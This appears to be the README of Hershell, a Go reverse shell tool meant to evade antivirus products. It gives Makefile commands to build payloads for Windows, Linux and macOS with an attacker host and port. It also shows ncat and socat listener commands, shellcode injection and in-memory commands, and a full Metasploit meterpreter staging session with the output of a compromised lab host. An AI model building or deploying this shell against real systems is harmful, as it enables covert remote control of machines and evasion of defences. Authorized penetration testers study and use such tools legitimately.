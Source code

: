 # Hershell

Simple TCP reverse shell written in [Go](https://golang.org).

It uses TLS to secure the communications, and provide a certificate public key fingerprint pinning feature, preventing from traffic interception.

Supported OS are:

- Windows
- Linux
- Mac OS
- FreeBSD and derivatives

## Why ?

Although meterpreter payloads are great, they are sometimes spotted by AV products.

The goal of this project is to get a simple reverse shell, which can work on multiple systems.

## How ?

Since it's written in Go, you can cross compile the source for the desired architecture.

## Getting started & dependencies

As this is a Go project, you will need to follow the [official documentation](https://golang.org/doc/install) to set up
your Golang environment (with the `$GOPATH` environment variable).

Then, just run `go get github.com/lesnuages/hershell` to fetch the project.

### Building the payload

To simplify things, you can use the provided Makefile.
You can set the following environment variables:

- ``GOOS`` : the target OS
- ``GOARCH`` : the target architecture
- ``LHOST`` : the attacker IP or domain name
- ``LPORT`` : the listener port

For the ``GOOS`` and ``GOARCH`` variables, you can get the allowed values [here](https://golang.org/doc/install/source#environment).

However, some helper targets are available in the ``Makefile``:

- ``depends`` : generate the server certificate (required for the reverse shell)
- ``windows32`` : builds a windows 32 bits executable (PE 32 bits)
- ``windows64`` : builds a windows 64 bits executable (PE 64 bits)
- ``linux32`` : builds a linux 32 bits executable (ELF 32 bits)
- ``linux64`` : builds a linux 64 bits executable (ELF 64 bits)
- ``macos32`` : builds a mac os 32 bits executable (Mach-O)
- ``macos64`` : builds a mac os 64 bits executable (Mach-O)

For those targets, you just need to set the ``LHOST`` and ``LPORT`` environment variables.

### Using the shell

Once executed, you will be provided with a remote shell.
This custom interactive shell will allow you to execute system commands through `cmd.exe` on Windows, or `/bin/sh` on UNIX machines.

The following special commands are supported:

* ``run_shell`` : drops you an system shell (allowing you, for example, to change directories)
* ``inject <base64 shellcode>`` : injects a shellcode (base64 encoded) in the same process memory, and executes it
* ``meterpreter [tcp|http|https] IP:PORT`` : connects to a multi/handler to get a stage2 reverse tcp, http or https meterpreter from metasploit, and execute the shellcode in memory (Windows only at the moment)
* ``exit`` : exit gracefully

## Usage

First of all, you will need to generate a valid certificate:
```bash
$ make depends
openssl req -subj '/CN=yourcn.com/O=YourOrg/C=FR' -new -newkey rsa:4096 -days 3650 -nodes -x509 -keyout server.key -out server.pem
Generating a 4096 bit RSA private key
....................................................................................++
.....++
writing new private key to 'server.key'
-----
cat server.key >> server.pem
```

For windows:

```bash
# Predifined 32 bit target
$ make windows32 LHOST=192.168.0.12 LPORT=1234
# Predifined 64 bit target
$ make windows64 LHOST=192.168.0.12 LPORT=1234
```

For Linux:
```bash
# Predifined 32 bit target
$ make linux32 LHOST=192.168.0.12 LPORT=1234
# Predifined 64 bit target
$ make linux64 LHOST=192.168.0.12 LPORT=1234
```

For Mac OS X
```bash
$ make macos LHOST=192.168.0.12 LPORT=1234
```

## Examples

### Basic usage

One can use various tools to handle incomming connections, such as:

* socat
* ncat
* openssl server module
* metasploit multi handler (with a `python/shell_reverse_tcp_ssl` payload)

Here is an example with `ncat`:

```bash
$ ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 1234
Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 172.16.122.105.
Ncat: Connection from 172.16.122.105:47814.
[hershell]> whoami
desktop-3pvv31a\lab
```

Here is an example with `socat` (tested with version `1.7.3.2`):
```bash
$ socat `tty` OPENSSL-LISTEN:1234,reuseaddr,cert=server.pem,key=server.key,verify=0
# connection would be initiated here
[hershell]> whoami
desktop-3pvv31a\lab
```

### Meterpreter staging

**WARNING**: this currently only work for the Windows platform.

The meterpreter staging currently supports the following payloads :

* `windows/meterpreter/reverse_tcp`
* `windows/x64/meterpreter/reverse_tcp`
* `windows/meterpreter/reverse_http`
* `windows/x64/meterpreter/reverse_http`
* `windows/meterpreter/reverse_https`
* `windows/x64/meterpreter/reverse_https`

To use the correct one, just specify the transport you want to use (tcp, http, https)

To use the meterpreter staging feature, just start your handler:

```bash
[14:12:45][172.16.122.105][Sessions: 0][Jobs: 0] > use exploit/multi/handler
[14:12:57][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
[14:13:12][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set lhost 172.16.122.105
lhost => 172.16.122.105
[14:13:15][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set lport 8443
lport => 8443
[14:13:17][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set HandlerSSLCert ./server.pem
HandlerSSLCert => ./server.pem
[14:13:26][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.

[*] [2018.01.29-14:13:29] Started HTTPS reverse handler on https://172.16.122.105:8443
[14:13:29][172.16.122.105][Sessions: 0][Jobs: 1] exploit(multi/handler) >
```

Then, in `hershell`, use the `meterpreter` command:

```bash
[hershell]> meterpreter https 172.16.122.105:8443
```

A new meterpreter session should pop in `msfconsole`:

```bash
[14:13:29][172.16.122.105][Sessions: 0][Jobs: 1] exploit(multi/handler) >
[*] [2018.01.29-14:16:44] https://172.16.122.105:8443 handling request from 172.16.122.105; (UUID: pqzl9t5k) Staging x64 payload (206937 bytes) ...
[*] Meterpreter session 1 opened (172.16.122.105:8443 -> 172.16.122.105:44804) at 2018-01-29 14:16:44 +0100

[14:16:46][172.16.122.105][Sessions: 1][Jobs: 1] exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  1         meterpreter x64/windows  DESKTOP-3PVV31A\lab @ DESKTOP-3PVV31A  172.16.122.105:8443 -> 172.16.122.105:44804 (10.0.2.15)

[14:16:48][172.16.122.105][Sessions: 1][Jobs: 1] exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: DESKTOP-3PVV31A\lab
```

## Credits

[@khast3x](https://github.com/khast3x) for the Dockerfile feature
